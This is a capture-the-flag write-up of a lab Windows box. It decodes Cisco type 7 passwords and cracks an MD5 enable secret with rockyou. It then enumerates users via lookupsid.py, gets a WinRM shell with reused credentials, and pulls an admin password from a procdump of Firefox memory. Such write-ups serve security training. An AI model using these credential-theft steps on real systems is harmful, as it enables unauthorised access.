

# USER

The box has exposed a `http` endpoint with a login page. On further inspection the page allows us to log on as a guest.

We are then redirected to a page with a support chat. On it is a link to a Cisco IOS config file. Via some searching it is found that the passwords present can be easily decrypted using this [page](http://www.ifm.net.nz/cookbooks/passwordcracker.html)

Meaning these:
```
[..]
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
[..]
```

Can be converted into these:
```
rout3r:$uperP@ssword
admin:Q4)sJu\Y8qz*A3?d
```

This is due to a trivially reverseable algorithm being used to 'encrypt' the passwords


```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

Cracking the level 5 password involves running it through rockyou. The command below was used:

```
openssl passwd -1 -salt <SALT> -table -in <rockyou.txt> | grep <hash_substring>
```

The cracking of this password gives:

```
stealth1agent	$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

This can be used with the username `hazard` to log into the SMB share.

This user only allows us access to the `IPC$` share. It contains no usefull files.

However, access to the SMB share allows us to use `lookupsid.py` to brute force SID values to enumerate new users.

```
$ ./lookupsid.py hazard@10.10.10.149 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

This provides us with 3 more users!

With trail and error, it can be seen that chase works with the `winrm` shell.

https://github.com/Hackplayers/evil-winrm


```
chase:Q4)sJu\Y8qz*A3?d
```

This lets us obtain a powershell on the box to grab the `user.txt`!

# ROOT

On the desktop there is a `todo.txt`.

```
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Having a look at the process running we can see `firefox` is taking up a large amount of resources.


```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName 
    407      31    17396      61224       1.72    320   1 firefox                          
    341      18    10036      37488       1.23   1136   1 firefox                          
    390      30    26352      58724      14.22   4008   1 firefox                      
   1241      68   105976     178564      26.02   5112   1 firefox                       
    358      26    16380      37636       1.14   6196   1 firefox  
```

I initially tried a `profile` way like `Chaos` but this didn't work. Further research implied I should look at processes memory. This can be achieved by [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

Running:

```
./procdump.exe -ma <PROCESS_ID>
```
s
Creates a dump file that then can be searched through like so:


```
Get-ChildItem -Path ./firefox.exe_190930_192158.dmp -Recurse -File | Select-String "admin"
```

`admin` was chosen as a string due to the assumption that the login page we encountered earlier was being hosted internally.


This then gives us this output!

```
firefox.exe_190930_192158.dmp:5410:��MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=+
```

We can see the `admin` password in the `GET` request:

```
login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ
```

This lets us login as the Administrator and grab the `root.txt`!